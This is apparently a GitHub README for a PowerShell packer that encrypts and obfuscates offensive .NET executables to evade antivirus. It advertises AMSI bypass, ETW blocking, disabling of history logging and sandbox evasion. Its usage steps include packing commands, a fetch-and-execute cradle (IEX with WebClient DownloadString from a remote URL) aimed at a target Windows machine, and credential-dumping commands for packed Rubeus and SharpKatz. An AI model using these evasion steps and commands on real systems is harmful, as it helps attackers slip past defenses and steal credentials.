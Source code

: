 ### Invoke-Csharp-Packer v2.0
--------------------------------------
'Invoke-Csharp-Packer' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.  
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-Csharp-Packer -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
```
PS C:\> Import-Module ./Invoke-Csharp-Packer.ps1
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-Csharp-Packer -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
``` 
  - Step 3. Execute the packed version of your (C#) .NET executable file   
    - Generic command: ``` PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...``` 
    - Exemple with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
    - Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0
